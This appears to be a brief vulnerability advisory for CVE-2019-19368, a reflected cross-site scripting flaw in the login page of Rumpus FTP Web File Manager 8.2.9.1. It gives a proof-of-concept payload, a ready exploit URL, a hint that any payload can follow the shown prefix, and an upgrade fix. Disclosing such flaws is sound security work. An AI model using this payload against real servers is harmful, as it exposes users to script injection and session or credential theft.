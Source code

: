 # CVE-2019-19368

#Title: Cross Site Scripting - Reflected
#Vendor: MAXUM Development (https://maxum.com)
#Affected Product: Rumpus FTP Web File Manager
#Affected Version: 8.2.9.1

Description:
A Reflected Cross Site Scripting was discovered in the main authentication page of Rumpus FTP Web File Manager. An attacker can exploit it by sending a crafted link to end users and can execute arbitrary JavaScripts

PoC: 

Payload: ?!'><sVg/OnLoAD=alert`1`// 

*You can try payload of ur choice, but don't forget to prepend these characters(?!'>) after "/Login"

URL: http://localhost/Login?!%27%3E%3CsVg/OnLoAD=alert`1`//

Solution:
Upgrade to the latest version.

